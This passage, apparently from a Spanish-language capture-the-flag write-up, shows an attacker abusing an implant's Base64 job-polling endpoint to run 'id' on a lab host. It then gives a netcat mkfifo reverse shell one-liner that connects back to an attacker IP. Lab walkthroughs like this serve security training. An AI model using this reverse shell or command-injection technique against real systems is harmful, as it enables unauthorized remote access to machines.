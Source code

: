 ```
10.10.39.148 - - [31/Jul/2025 22:33:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
10.10.39.148 - - [31/Jul/2025 22:33:04] code 404, message File not found
10.10.39.148 - - [31/Jul/2025 22:33:04] "GET /job-result/eyJzdWNjZXNzIjogZmFsc2UsICJyZXN1bHQiOiAiRW5jb2RpbmcgZXJyb3IifQ== HTTP/1.1" 404 -
```

Hemos recibido el siguiente mensaje: `eyJzdWNjZXNzIjogZmFsc2UsICJyZXN1bHQiOiAiRW5jb2RpbmcgZXJyb3IifQ==`, que al ser decodificado resulta en `{"success": false, "result": "Encoding error"}`. Esto indica un error de `encoding`. Dado que todo está codificado en `Base64`, procederemos a codificar nuestro comando y lo colocaremos en el archivo `ImxhdGVzdCI=`.

```
{"job_id": 0, "cmd": "id"}
eyJqb2JfaWQiOiAwLCAiY21kIjogImlkIn0=
```

De esta manera, logramos obtener una respuesta válida del servidor.

<figure><img src="../.gitbook/assets/ForgottenImplant/python-seucces.png" alt=""><figcaption></figcaption></figure>

```
10.10.39.148 - - [31/Jul/2025 22:37:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
10.10.39.148 - - [31/Jul/2025 22:37:03] code 404, message File not found
10.10.39.148 - - [31/Jul/2025 22:37:03] "GET /job-result/eyJqb2JfaWQiOiAwLCAiY21kIjogImlkIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInVpZD0xMDAxKGFkYSkgZ2lkPTEwMDEoYWRhKSBncm91cHM9MTAwMShhZGEpXG4ifQ== HTTP/1.1" 404 -
```

```
eyJqb2JfaWQiOiAwLCAiY21kIjogImlkIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInVpZD0xMDAxKGFkYSkgZ2lkPTEwMDEoYWRhKSBncm91cHM9MTAwMShhZGEpXG4ifQ==

Decodificado

{"job_id": 0, "cmd": "id", "success": true, "result": "uid=1001(ada) gid=1001(ada) groups=1001(ada)\n"}
```

Si logramos ejecutar un comando como `id`, podríamos abrir una puerta de acceso al sistema del servidor a través de una `shell`. Por lo tanto, procederemos a generar nuestra `reverse shell`.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.24 4242 >/tmp/f
```
